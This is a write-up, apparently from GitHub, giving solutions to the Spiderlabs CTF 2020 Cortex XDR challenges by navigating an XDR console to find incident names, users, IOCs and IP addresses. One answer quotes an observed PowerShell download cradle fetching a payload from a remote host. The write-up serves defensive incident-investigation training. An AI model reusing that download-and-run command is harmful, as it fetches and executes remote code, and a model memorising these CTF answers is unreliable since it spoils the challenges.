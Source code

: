 # Spiderlabs CTF 2020

The event was held from Thursday, August 6 at 6:00 pm Pacific. End August 8 at 6:00 pm Pacific.

My team managed to complete all the OSINT and Cortex XDR by Palo Alto Networks challenges.

# Solutions
## Cortex XDR by Palo Alto Networks

### Watching the Detectives
Your coworker started investigating an Incident but did not finish. He gave the Incident a unique name. What is the "Incident Name"

Navigate to the investigation tab and you will find the incident name as `Possible compromise`

### Lock it up
A user in Accounting called saying they received a message from XDR that a file was quarantined. Name the file that has been quarantined by the XDR agent.

Navigate to the alert table and find the account belongs to the accounting group and you will find `pomf.exe`

### Who’s Who?
When analyzing a security event, XDR surfaces information of interest in each node of the causality flow chart. In the incident labeled 'Process requests the deletion of Windows Shadowcopies' on PeckPC, what user ran WINWORD.EXE?

Right view the incident as mentioned as look through the alerts you will find `PECKPC\Administrator`

### Who Done it
A Memory Corruption Exploit Incident was triggered where a user browsed to a malicious website. What is the username of the user that attempted to reach the malicious website?

`SPENGLERPC\Egon`

### To Reach a Compromise
Indicators of Compromise can be used in XDR to find rudimentary evidence of an attack based on a single data point (file, URL, file hash, etc). One such IOC exists. What indicator is it looking for?

Navigate to the IOC settings and you will find `www.piratebay.org`

<img src="https://user-images.githubusercontent.com/54532620/89723258-6f59f400-da26-11ea-9177-c0a7fb142c40.png">

### Captain's Log
XDR keeps logs of user activity. User Ben Widmer logged in and modified a profile. What is the name of the profile?

<img src="https://user-images.githubusercontent.com/54532620/89723271-96b0c100-da26-11ea-872f-0f7341394284.png">

`Branch Restriction Profile`

### Address Unknown
In an Incident involving the host "PeckPC", a payload is downloaded form a malicious IP address. What other host(s) have been communicating with the IP address in question?

There are a few hosts being flagged under the incident and I just tried `SpenglerPC` which turns out to the answer

### Remote Control
When analyzing a security event, XDR surfaces information of interest in each node of the causality flow chart. In the incident labeled 'Process requests the deletion of Windows Shadowcopies', an initial payload is downloaded from a remote IP address to "PeckPC'. what is the IP address?

<img src="https://user-images.githubusercontent.com/54532620/89723295-e8594b80-da26-11ea-9429-2d67891768eb.png">

Click on the powershell.exe with .downloadstring('http://10.0.0.10/payload.txt ')), then network and you will find the dest IP is `10.0.0.10`

<img src="https://user-images.githubusercontent.com/54532620/89723309-01fa9300-da27-11ea-8399-1f7e8814d31f.png">

### Debaser
When analyzing a security event, XDR surfaces information of interest in each node of the causality flow chart. In the incident labeled 'Process requests the deletion of Windows Shadowcopies' on PeckPC, powershell.exe is passed a base64 encoded string. What is the first DLL imported in this string?

Copy this record as there is the encoded string being parsed to the powershell

<img src="https://user-images.githubusercontent.com/54532620/89723316-222a5200-da27-11ea-8d9d-4f5cea71e0cb.png">

Decode the encoded string, and copy the first DLL `kernel32.dll`

<img src="https://user-images.githubusercontent.com/54532620/89723325-3ff7b700-da27-11ea-99b6-8f7bf3eb018d.png">

### She Ran Calling WildFire
Within Incident 1, several malware events have been identified. These verdicts were identified by WildFire. According to analysis of the QuarterlySummary.pdf.exe binary, several TCP connections were recorded. One of these connections was to a European Union (EU) IP address. What was the IP Address?

In this incident, right click on the QuarterlySummary.pdf.exe artifacts and open it in hash view

<img src="https://user-images.githubusercontent.com/54532620/89723330-51d95a00-da27-11ea-870c-02deb4948b38.png">

Thenafter, click on the view full report and you will find `192.251.226.206` under EU

<img src="https://user-images.githubusercontent.com/54532620/89723350-91a04180-da27-11ea-9ddc-2894a7f59aa6.png">





